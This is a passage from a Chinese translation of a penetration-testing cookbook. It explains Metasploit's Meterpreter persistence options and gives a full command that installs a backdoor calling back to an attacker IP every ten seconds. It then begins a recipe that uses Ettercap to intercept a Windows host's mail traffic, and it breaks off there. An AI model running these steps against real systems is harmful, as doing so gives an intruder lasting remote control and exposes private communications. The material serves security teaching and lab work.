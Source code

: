 3.  永久后门有几个选项，包括：

    +   `-A`：这个选项会自动启动一个匹配的多重处理器来链接到代理端。
    
    +   `-S`：这个选项让后门自动化启动为系统服务。
    
    +   `-U`：这个选项让后门在用户启动系统时自动启动。
    
    +   `-i`：这个选项设置两次尝试回复攻击者机器之间的秒数。
    
    +   `-p`：这个选项设置攻击者机器上 Metasploit 的监听端口。
    
    +   `-P`：这个选项设置所用的载荷。默认使用` Reverse_tcp `，并且它通常是你想使用的东西。
    
    +   `-r`：这个选项设置攻击者机器的 IP 地址。
    
4.  现在，我们执行命令来建立后门：

    ```
    run persistence –U –A –i 10 – 8090 –r 192.168.10.109
    ```
    
5.  后门现在已经建立了。如果成功的话，你会注意到你有了第二个 Meterpreter  会话。

    ![](img/7-6-2.jpg)
    
### 工作原理

这个秘籍中，我们使用 Meterpreter  来建立永久后门。我们在黑进目标主机并获得  Meterpreter shell 之后开始了这个秘籍。之后我们通过浏览帮助文档那个，探索了一些可用的永久化方式。最后，我们通过运行安装命令并设置它的选项来完成后门的安装。

## 7.7 中间人（MITM）攻击

这个秘籍中，我们会对目标进行中间人（MITM）攻击。MITM 攻击允许我们窃听目标和别人的通信。在我们的例子中，当某个 Windows 主机在<http://www.yahoo.com>收发邮件时，我们使用 Ettercap 来窃听它的通信。

### 准备

为了执行这个秘籍，我们需要：

+ 无线网络连接

+ 连接到无线网络的机器

### 操作步骤

让我们启动 Ettercap 来开始中间人攻击。

1.  打开终端窗口并启动 Ettercap。使用`-G`选项加载 GUI：

    ```
    ettercap –G
    ```
    